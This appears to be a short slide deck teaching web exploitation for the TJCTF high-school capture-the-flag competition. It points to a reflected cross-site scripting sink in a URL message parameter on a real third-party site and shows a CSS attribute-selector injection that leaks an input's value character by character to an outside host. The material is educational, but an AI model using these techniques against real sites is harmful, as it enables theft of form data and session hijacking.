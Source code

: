 title: Easy Web
---
# Easy Web
Robert Chen

---
# TJCTF
<https://tjctf.org/>

> TJCTF is a Capture the Flag (CTF) competition hosted by TJHSST's Computer Security Club. It is an online, jeopardy-style competition targeted at high schoolers interested in Computer Science and Cybersecurity. Participants may compete on a team of up to 5 people, and will solve problems in categories such as Binary Exploitation, Reverse Engineering, Web Exploitation, Forensics, and Cryptography in order to gain points. The eligible teams with the most points will win prizes at the end of the competition.
---
# Warmup
<https://blurry.tjctf.org/>

~~view source~~
---
# XSS 
<https://www.tabroom.com/index/index.mhtml?msg=custom_message_here>

---
# View Source
```javascript
alertify.notify("custom_message_here", "custom");
```

What happens when we use a "? 

---
# Exploit
???

---
# CSS Injection
<https://moar_horse_3.tjctf.org/>

---
# CSS Attribute Selectors
The `[attribute]` selector is used to select elements with a specified attribute.
```css
input[value^="fla"]{
  background-color: blue;
}
```

---
# How to exploit?
```css
input[value^="a"]{
  background-color: url(http://test.robertchen.cc/a);
}
input[value^="b"]{
  background-color: url(http://test.robertchen.cc/b);
}
```
